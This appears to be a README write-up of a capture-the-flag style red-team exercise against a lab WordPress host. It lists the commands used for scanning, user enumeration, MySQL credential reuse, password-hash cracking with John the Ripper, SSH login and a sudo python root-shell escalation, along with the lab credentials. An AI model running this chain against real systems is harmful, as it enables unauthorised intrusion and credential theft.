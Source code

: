 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
Nmap scan results for each machine reveal the below services and OS details:

`nmap -Pn -sV -O 192.168.1.110`<br>
![nmap scan](/images/nmapscan.png)<br>
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 - SSH
  - Port 80 - HTTP
  - Port 139 - NetBIOS
  - Port 445 - NetBIOS

The following vulnerabilities were identified on each target:
- Target 1
  1. Wordpress Enumeration
  2. Weak, Short Passwords
  3. Password Hash readable in MySQL (no salt)
  4. Privilege Escalation Misconfiguration (python pty vulnerable)

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploit Used**
      - command: `wpscan --url http://192.168.1.110/wordpress -u`
      - Wordpress enumeration found usernames `michael` and `steven`
      - Guessing password to both using obvious possible guess found password for user which was `michael`
      - By searching through directories and files, `flag1` was found in `/var/www/html/service.html` <br>
  ![flag1](/images/flag1.png) <br>
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Using the same method of searching through the directories and files, `flag2` was found in `/var/www/flag2.txt`
      - 
    - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - One of the important files to search for is the `wp-config.php` file which gives details of how worpress is configured on the server
      - `wp-config.php` was found in `/var/www/html/wordpress` using `cat wp-config.php` show credentials to login to MySQL database: root:R@v3nSecurity
      - Using the command `mysql -u root -p'R@v3nSecurity' -h localhost` we can now login to MySQL
      - Once in MySQL, you can see all databases by using the command `show databases;`, then running the command to select the database in question `use wordpress;`
      - Once in the wordpress database, tables can viewed by using command `show tables;`
      - We see the wp_posts table we can run `select * from wp_posts;` and now have `flag3`
    
      - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Using the same database, we can now get view entries in the wp_users table by running `select * from wp_users;`
      - We can see the password hashes for both users, we can save those hashes in a txt file using the format: `user1:$Passwordhash1` and save it as `wp_hashes.txt`
      - The hashes can be cracked using John the ripper with the command `john wp_hashes.txt`, doing sowe now have user steven's password `pink84`
      - SSH can be used to get into the target machine, command: `ssh steven@192.168.1.110` and entering the password when prompted
      - Once logged in we can see what privileges the user has (command: `ls -l`), which tells us that steven can run python scripts
      - One vulnerability we can use is spawning a root terminal with command: `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
      - Success! now we can see `flag4.txt` in the root folder
